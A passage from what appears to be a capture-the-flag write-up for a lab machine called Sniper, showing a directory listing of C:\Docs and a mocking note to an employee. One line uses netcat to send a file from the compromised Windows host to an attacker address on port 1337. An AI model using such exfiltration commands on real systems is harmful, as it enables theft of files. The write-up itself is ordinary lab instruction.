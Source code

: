 Sending the file over:
{% highlight raw %}
C:\Users\Chris\Downloads>C:\tmp\nc.exe 10.10.XX.XX 1337 < instructions.chm
{% endhighlight %}

![](/assets/images/sniper9.png) 

Looks like we have a disgrunted employee here haha but nothing much here.

I also found a folder called `C:\Docs`:
{% highlight raw %}
C:\Docs>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 6A2B-2640

 Directory of C:\Docs

10/01/2019  01:04 PM    <DIR>          .
10/01/2019  01:04 PM    <DIR>          ..
04/11/2019  09:31 AM               285 note.txt
04/11/2019  09:17 AM           552,607 php for dummies-trial.pdf
               2 File(s)        552,892 bytes
               2 Dir(s)  17,993,322,496 bytes free
{% endhighlight %}

In the `note.txt`:
{% highlight raw %}
Hi Chris,
Your php skillz suck. Contact yamitenshi so that he teaches you how to use it and after that fix the website as there are a lot of bugs on it. And I hope that you've prepared the documentation for our new app. Drop it here when you're done with it.

Regards,
Sniper CEO.
{% endhighlight %}
